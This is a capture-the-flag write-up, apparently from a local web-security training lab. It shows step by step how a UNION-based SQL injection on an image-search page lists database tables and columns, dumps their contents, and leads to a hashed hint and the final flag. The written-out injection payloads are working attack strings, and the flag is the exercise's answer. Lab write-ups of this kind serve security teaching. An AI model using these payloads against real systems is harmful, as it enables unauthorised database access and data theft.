 # EXPLANATIONS

Based on the same principle as the "search member" SQL injection vulnerability, we discover that the page http://127.0.0.1:8080/index.php?page=searchimg is also vulnerable to SQL injection.

There are also 2 fields to input into the SQL query.

We follow the same steps:

1 UNION ALL SELECT 1, table_name FROM information_schema.tables WHERE table_schema = database(); gives us "list_images" for the table name

1 UNION ALL SELECT 1, column_name FROM information_schema.columns WHERE table_name = 0x6c6973745f696d61676573; (list_images in hexadecimal) returns id, url, title, comment for the columns names

1 UNION ALL SELECT 1, title FROM list_images; gives us "hack me?" for the last line

1 UNION ALL SELECT 1, comment FROM list_images; gives: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 After decoding this on the MD5 site, we get "albatroz".
Then we use the command echo -n albatroz | shasum -a 256 to get the flag:

**f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**

# SOLUTIONS

Same solutions as for the "search_member_sql_injection" flag.